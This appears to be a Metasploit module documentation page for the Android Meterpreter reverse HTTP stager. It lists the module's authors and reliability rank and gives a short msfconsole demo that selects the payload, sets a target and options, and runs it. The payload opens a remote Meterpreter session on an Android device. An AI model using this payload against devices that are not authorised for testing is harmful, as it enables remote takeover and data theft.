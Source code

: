 ## Android Meterpreter, Dalvik Reverse HTTP Stager

Run a meterpreter server on Android. Tunnel communication 
over HTTP


## Module Name
payload/android/meterpreter/reverse_http

## Authors
* mihi
* egypt
* anwarelmakrahy
* OJ Reeves





## Platforms
* android

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/android/meterpreter/reverse_http
msf payload(reverse_http) > show targets
   ... a list of targets ...
msf payload(reverse_http) > set TARGET <target-id>
msf payload(reverse_http) > show options
   ... show and set options ...
msf payload(reverse_http) > run
```
    
    